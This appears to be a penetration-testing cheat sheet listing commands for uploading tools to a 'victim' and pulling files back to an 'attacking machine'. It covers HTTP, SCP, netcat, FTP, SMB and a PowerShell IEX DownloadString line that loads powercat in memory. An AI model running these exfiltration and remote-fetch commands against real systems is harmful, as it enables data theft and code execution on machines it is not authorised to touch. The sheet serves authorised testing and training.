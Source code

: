 # File-Transfer
## ****Upload files to the victim****

### ****Simple HTTP Server****

- Attacking machine command:
    
    `python -m SimpleHTTPServer 80`
    
    - Victim machine command:
    
     `wget http://192.168.1.35/FiletoTransfer`
    
    or
    

       `curl -o <FiletoTransfer> http://192.168.1.35/FiletoTransfer`

### **SCP(SSH utility)**

This method will only be valid if the target machine has ssh and we have the credentials.

- Attacking machine command:

`scp` `FiletoTransfer> tester@192.168.1.39:/home/tester/iron/`

### ****Netcat****

Victim machine command:

`nc` `-lvp 4444 > FiletoTransfer`

Attacking machine command:

`nc` `192.168.1.39 4444 -w 3 < FiletoTransfer`

### ****FTP****

Attacking machine command:

`twistd -n ftp` `-r .`

Victim machine command:

`wget ftp://192.168.1.35:2121/FiletoTransfer`

## ****Download victim files****

### ****FTP****

Attacking machine command:

`python -m pyftpdlib -w`

Victim machine command:

`ftp`

`open` `10.10.10.1 2121`

`anonymous`

`put FiletoDownload`

`bye`

### ****Netcat****

Attacking machine command:

`nc` `-lvp 4444 > FiletoDownload`

Victim machine command:

`nc.exe 10.10.10.1 4444 -w 3 < FiletoDownload`

### ****SMB****

Through impacket-smbserver we will mount a smb folder on our machine that we will access from the victim machine to copy the file to be downloaded in our SMB folder

Attacking machine command:

`impacket-smbserver -smb2support test` `.`

Victim machine command:

`copy  FiletoDownload \\10.10.10.1:8080\FiletoDownload`

### ****Powercat****

In this method we will load in memory the powercat module, a tool with which we can load a shell, send files. In this case we will use it for this same.

We have the powercat.ps1 file hosted on our machine and load it using the DownloadString function. We execute powercat to send the file and through wget we download it in our machine.

We will see that the download never ends but we will cancel it when it may have finished depending on the size of the file.

- Victim machine command:1`powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.1/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoDownload"`Attacking machine command:1`wget http://10.10.10.2:4444/FiletoDownload`

Tools:

[netcat](http://netcat.sourceforge.net/), [impacket](https://github.com/CoreSecurity/impacket), [pyftpdlib](https://github.com/giampaolo/pyftpdlib), [powercat](https://github.com/besimorhino/powercat), [twistd](https://twistedmatrix.com/documents/17.5.0/core/howto/basics.html#application)

